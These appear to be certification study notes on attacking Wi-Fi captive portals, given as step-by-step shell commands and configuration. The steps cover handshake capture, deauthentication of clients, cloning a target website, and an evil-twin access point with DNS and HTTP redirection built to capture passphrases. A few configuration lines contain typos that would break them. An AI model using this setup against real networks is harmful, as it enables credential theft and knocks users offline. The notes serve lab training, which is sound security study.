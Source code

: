# Offensive Security Wireless Professional (OSWP)

### Attacking Captive Portal

<details>
<summary>How do browsers detect existance of a captive portal?</summary>

> **Description**
>
> Browsers try to resolve a set of URIs and expect a recieve from server in the
> form of HTTP 204 or 200 responses.
>
> Detecting existance of a captive portal and internet connectivity are two
> different things.
>
> ---
> **Resources**
> - Offensive Security Wireless Professional - Attacking Captive Portal
> ---
</details>

<details>
<summary>What is a target AP?</summary>

> **Description**
>
> The target access point, also the collection of its information like channel,
> clients and etc.
>
> ---
> **Resources**
> - Offensive Security Wireless Professional - Attacking Captive Portal
> ---
</details>

<details>
<summary>What are the requirements of attacking a captive portal?</summary>

> **Description**
>
> On WPA-PSK or WPA2-PSK networks we should capture a handshake.
>
> Then we would need to copy the captive portal or when non exists, create a
> convincing one.
>
> ---
> **Resources**
> - Offensive Security Wireless Professional - Attacking Captive Portal
> ---
</details>

<details>
<summary>Capture a handshake from an access point?</summary>

> **Description**
>
> Stop network interfaces:
> ```sh
> sudo airmon-ng check kill
> ``````
>
> Switch wireless interface to monitor mode:
> ```sh
> sudo airmon-ng start wlan0
> ``````
>
> Use monitor mode to capture information about clients and access points:
> ```sh
> sudo airodump-ng wlan0mon
> ``````
>
> Capture handshake from one of clients:
> ```sh
> sudo airodump-ng -w discovery --output-format pcap -c 11 wlan0mon
> ``````
>
> Force a client to reconnect to the access pointer:
> ```sh
> sudo aireplay-ng -0 0 -a <AP:BSSID> wlan0mon
> ``````
>
> Disable monitor mode:
> ```sh
> sudo airmon-ng stop wlan0mon
> ``````
>
> ---
> **Resources**
> - Offensive Security Wireless Professional - Attacking Captive Portal
> ---
</details>

<details>
<summary>Create a captive portal?</summary>

> **Description**
>
> For this scenario we need PHP and Apache server.
>
> Download website content of the target corporation behind captive portal:
> ```sh
> wget -r -l2 https://megacorpone.com
> ``````
>
> Setup http server and index file:
> ```sh
> sudo mkdir /var/www/html/portal
> sudo cp -r ./www.megacorpone.com/assets/ /var/www/html/portal/
> sudo cp -r ./www.megacorpone.com/old-site/ /var/www/html/portal/
> ``````
>
> Create index file:
> ```sh
> sudoedit /var/www/html/portal/index.php
> ``````
>
> Create login check script to verify client given password works:
> ```sh
> sudoedit /var/www/html/portal/login_check.php
> ``````
>
> Create an interface for fake captive portal:
> ```sh
> sudo ip addr add 192.168.87.1/24 dev wlan0
> sudo ip link set wlan0 up
> ``````
>
> Use dnsmasq to setup DHCP server:
> ```sh
> vim mco-dnsmasq.conf
>
> domain-needed
> bogus-priv
> no-resolv
> filterwin2k
> expand-hosts
> domain=localdomain
> local=/localdomain/
>
> listen-address=192.168.87.1
>
> dhcp-range=192.168.87.100,192.168.87.199,12h
> dhcp-lease-max=100
>
> log-quesries
> address=/com/192.168.87.1
> address=/org/192.168.87.1
> address=/net/192.168.87.1
> # Entries for windows 7 and 10 captive portal detection
> address=/dns.msftncsi.com/131.103.255.255
> ``````
>
> Start DHCP service:
> ```sh
> sudo dnsmasq --conf-file=mco-dnsmasq.conf
> ``````
>
> Confirm services are running:
> ```sh
> sudo ss -antlp
> ``````
>
> Sometimes clients ignore settings setup in DHCP lease, we can reroute these
> requests by netfilter:
> ```sh
> sudo nft add table ip nat
> sudo nft 'add chain nat PREROUTING { type nat hook prerouting priority dstnat; policy accept; }'
> sudo nft add rule ip nat PREROUTING iifname "wlan0" udp dport 53 counter redirect to :53
> ``````
>
> Configure Apache to accept mode rewrite and alias rules:
> ```sh
> sudoedit /etc/apache2/sites-enabled/000-default.conf
>
> # Apple
> RewriteEngine on
> RewriteCond %{HTTP_USER_AGENT} ^CaptiveNetworkSupport(.*)$ [NC]
> RewriteCond %{HTTP_HOST} !^192.168.87.1$
> RewriteRule ^(.*)$ http://192.168.87.1/portal/index.php [L,R=302]
>
> # Android
> RedirectMatch 302 /generate_204 http://192.168.87.1/portal/index.php
>
> # Windows 7 and 10
> RedirectMatch 302 /ncsi.txt http://192.168.87.1/portal/index.php
> RedirectMatch 302 /connecttest.txt http://192.168.87.1/portal/index.php
>
> # Catch-all rule to redirect other possible attempts
> RewriteCond %{REQUEST_UIR} !^/portal/ [NC]
> RewriteRule ^(.*)$ http://192.168.87.1/portal/index.php [L]
> ``````
>
> Use Apache modules to make rewrite and redirects work:
> ```sh
> sudo a2enmod rewrite
> sudo a2enmod alias
> ``````
>
> Restart Apache:
> ```sh
> sudo systemctl restart apache2
> ``````
>
> Confirm that captive portal works:
> ```sh
> firefox http://192.168.87.1/portal/index.php
> ``````
>
> Configure hostapd:
> ```sh
> vim mco-hostapd.conf
>
> interface=wlan0
> ssid=MegaCorp One Lab
> channel=11
> hw_mode=g
> ieee80211n=1
> ``````
>
> Run hostapd to create captive portal:
> ```sh
> sudo hostapd -B mco-hostapd.conf
> ``````
>
> Capture passphrases using your captive portal.
>
> ---
> **Resources**
> - Offensive Security Wireless Professional - Attacking Captive Portal
> ---
</details>
